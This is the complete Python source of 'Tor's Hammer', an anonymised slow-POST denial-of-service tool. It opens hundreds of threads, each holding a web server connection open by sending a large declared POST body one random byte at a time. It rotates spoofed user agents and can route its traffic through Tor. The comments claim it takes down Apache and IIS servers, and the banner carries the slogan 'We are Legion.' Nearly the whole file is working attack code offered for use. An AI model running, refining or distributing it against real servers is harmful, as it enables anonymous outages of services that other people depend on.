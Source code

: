 #!/usr/bin/python

# this assumes you have the socks.py (http://phiral.net/socks.py) 
# and terminal.py (http://phiral.net/terminal.py) in the
# same directory and that you have tor running locally 
# on port 9050. run with 128 to 256 threads to be effective.
# kills apache 1.X with ~128, apache 2.X / IIS with ~256
# not effective on nginx

import os
import re
import time
import sys
import random
import math
import getopt
import socks
import string
import terminal

from threading import Thread

global stop_now
global term

stop_now = False
term = terminal.TerminalController()

useragents = [
 "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.04506.30)",
 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.1.4322)",
 "Googlebot/2.1 (http://www.googlebot.com/bot.html)",
 "Opera/9.20 (Windows NT 6.0; U; en)",
 "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.1) Gecko/20061205 Iceweasel/2.0.0.1 (Debian-2.0.0.1+dfsg-2)",
 "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; FDM; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 1.1.4322)",
 "Opera/10.00 (X11; Linux i686; U; en) Presto/2.2.0",
 "Mozilla/5.0 (Windows; U; Windows NT 6.0; he-IL) AppleWebKit/528.16 (KHTML, like Gecko) Version/4.0 Safari/528.16",
 "Mozilla/5.0 (compatible; Yahoo! Slurp/3.0; http://help.yahoo.com/help/us/ysearch/slurp)", # maybe not
 "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.13) Gecko/20101209 Firefox/3.6.13"
 "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 5.1; Trident/5.0)",
 "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
 "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 6.0)",
 "Mozilla/4.0 (compatible; MSIE 6.0b; Windows 98)",
 "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)",
 "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.8) Gecko/20100804 Gentoo Firefox/3.6.8",
 "Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.2.7) Gecko/20100809 Fedora/3.6.7-1.fc14 Firefox/3.6.7",
 "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",
 "Mozilla/5.0 (compatible; Yahoo! Slurp; http://help.yahoo.com/help/us/ysearch/slurp)",
 "YahooSeeker/1.2 (compatible; Mozilla 4.0; MSIE 5.5; yahooseeker at yahoo-inc dot com ; http://help.yahoo.com/help/us/shop/merchant/)"
]

class httpPost(Thread):
    def __init__(self, host, port, tor):
        Thread.__init__(self)
        self.host = host
        self.port = port
        self.socks = socks.socksocket()
        self.tor = tor
        self.running = True
		
    def _send_http_post(self, pause=10):
        global stop_now

        self.socks.send("POST / HTTP/1.1\r\n"
                        "Host: %s\r\n"
                        "User-Agent: %s\r\n"
                        "Connection: keep-alive\r\n"
                        "Keep-Alive: 900\r\n"
                        "Content-Length: 10000\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n\r\n" % 
                        (self.host, random.choice(useragents)))

        for i in range(0, 9999):
            if stop_now:
                self.running = False
                break
            p = random.choice(string.letters+string.digits)
            print term.BOL+term.UP+term.CLEAR_EOL+"Posting: %s" % p+term.NORMAL
            self.socks.send(p)
            time.sleep(random.uniform(0.1, 3))
	
        self.socks.close()
		
    def run(self):
        while self.running:
            while self.running:
                try:
                    if self.tor:     
                        self.socks.setproxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 9050)
                    self.socks.connect((self.host, self.port))
                    print term.BOL+term.UP+term.CLEAR_EOL+"Connected to host..."+ term.NORMAL
                    break
                except Exception, e:
                    if e.args[0] == 106 or e.args[0] == 60:
                        break
                    print term.BOL+term.UP+term.CLEAR_EOL+"Error connecting to host..."+ term.NORMAL
                    time.sleep(1)
                    continue
	
            while self.running:
                try:
                    self._send_http_post()
                except Exception, e:
                    if e.args[0] == 32 or e.args[0] == 104:
                        print term.BOL+term.UP+term.CLEAR_EOL+"Thread broken, restarting..."+ term.NORMAL
                        self.socks = socks.socksocket()
                        break
                    time.sleep(0.1)
                    pass
 
def usage():
    print "./torshammer.py -t <target> [-r <threads> -p <port> -T -h]"
    print " -t|--target <Hostname|IP>"
    print " -r|--threads <Number of threads> Defaults to 256"
    print " -p|--port <Web Server Port> Defaults to 80"
    print " -T|--tor Enable anonymising through tor on 127.0.0.1:9050"
    print " -h|--help Shows this help\n" 
    print "Eg. ./torshammer.py -t 192.168.1.100 -r 256\n"

def main(argv):
    
    try:
        opts, args = getopt.getopt(argv, "hTt:r:p:", ["help", "tor", "target=", "threads=", "port="])
    except getopt.GetoptError:
        usage() 
        sys.exit(-1)

    global stop_now
	
    target = ''
    threads = 256
    tor = False
    port = 80

    for o, a in opts:
        if o in ("-h", "--help"):
            usage()
            sys.exit(0)
        if o in ("-T", "--tor"):
            tor = True
        elif o in ("-t", "--target"):
            target = a
        elif o in ("-r", "--threads"):
            threads = int(a)
        elif o in ("-p", "--port"):
            port = int(a)

    if target == '' or int(threads) <= 0:
        usage()
        sys.exit(-1)

    print term.DOWN + term.RED + "/*" + term.NORMAL
    print term.RED + " * Target: %s Port: %d" % (target, port) + term.NORMAL
    print term.RED + " * Threads: %d Tor: %s" % (threads, tor) + term.NORMAL
    print term.RED + " * Give 20 seconds without tor or 40 with before checking site" + term.NORMAL
    print term.RED + " */" + term.DOWN + term.DOWN + term.NORMAL

    rthreads = []
    for i in range(threads):
        t = httpPost(target, port, tor)
        rthreads.append(t)
        t.start()

    while len(rthreads) > 0:
        try:
            rthreads = [t.join(1) for t in rthreads if t is not None and t.isAlive()]
        except KeyboardInterrupt:
            print "\nShutting down threads...\n"
            for t in rthreads:
                stop_now = True
                t.running = False

if __name__ == "__main__":
    print "\n/*"
    print " *"+term.RED + " Tor's Hammer "+term.NORMAL
    print " * Slow POST DoS Testing Tool"
    print " * entropy [at] phiral.net"
    print " * Anon-ymized via Tor"
    print " * We are Legion."
    print " */\n"

    main(sys.argv[1:])
